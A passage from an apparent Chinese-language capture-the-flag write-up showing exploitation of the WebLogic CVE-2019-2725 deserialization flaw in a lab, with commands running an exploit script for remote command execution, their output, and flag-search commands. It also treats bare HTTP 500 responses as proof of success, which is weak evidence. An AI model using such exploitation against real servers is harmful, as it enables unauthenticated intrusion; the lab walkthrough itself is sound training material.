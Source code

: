 **执行手工攻击**:

```bash
# 保存脚本为manual_exploit.py
python3 manual_exploit.py http://10.37.133.3:7001 "id"

# 获取系统信息
python3 manual_exploit.py http://10.37.133.3:7001 "uname -a"

# 查看当前目录
python3 manual_exploit.py http://10.37.133.3:7001 "pwd && ls -la"
```

**攻击执行结果**:

```bash
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ python3 manual_exploit.py http://10.37.133.3:7001 "id"

[*] 攻击目标: http://10.37.133.3:7001/wls-wsat/CoordinatorPortType
[*] 执行命令: id
[+] HTTP状态码: 500
[+] 响应长度: 5287 字节
[+] 可能攻击成功 (HTTP 500通常表示反序列化触发)
                                                                                                                                                       
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ python3 manual_exploit.py http://10.37.133.3:7001 "uname -a"

[*] 攻击目标: http://10.37.133.3:7001/wls-wsat/CoordinatorPortType
[*] 执行命令: uname -a
[+] HTTP状态码: 500
[+] 响应长度: 5287 字节
[+] 可能攻击成功 (HTTP 500通常表示反序列化触发)
                                                                                                                                                       
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ python3 manual_exploit.py http://10.37.133.3:7001 "pwd && ls -la"

[*] 攻击目标: http://10.37.133.3:7001/wls-wsat/CoordinatorPortType
[*] 执行命令: pwd && ls -la
[+] HTTP状态码: 500
[+] 响应长度: 500 字节
[+] 可能攻击成功 (HTTP 500通常表示反序列化触发)
```

**✅ 攻击成功确认**:

1. **HTTP 500状态码**: 所有命令执行都返回500状态码，这是CVE-2019-2725反序列化漏洞触发的典型特征
2. **响应长度变化**: 不同命令的响应长度不同（5287字节 vs 500字节），说明服务器正在处理不同的命令
3. **SOAP载荷成功**: 恶意的ProcessBuilder SOAP载荷成功被WebLogic服务器解析和执行
4. **无认证RCE**: 无需任何认证即可执行系统命令，确认了漏洞的严重性

#### 3.2.4 Flag搜索与获取

```bash
# 搜索flag文件
python3 manual_exploit.py http://10.37.133.3:7001 "find / -name '*flag*' 2>/dev/null"

# 常见flag位置检查
python3 manual_exploit.py http://10.37.133.3:7001 "cat /flag /tmp/flag* /flag.txt 2>/dev/null || echo 'Flag not found in common locations'"

# 搜索包含flag关键字的文件内容
python3 manual_exploit.py http://10.37.133.3:7001 "grep -r 'flag' /tmp /var /home 2>/dev/null | head -10"
```
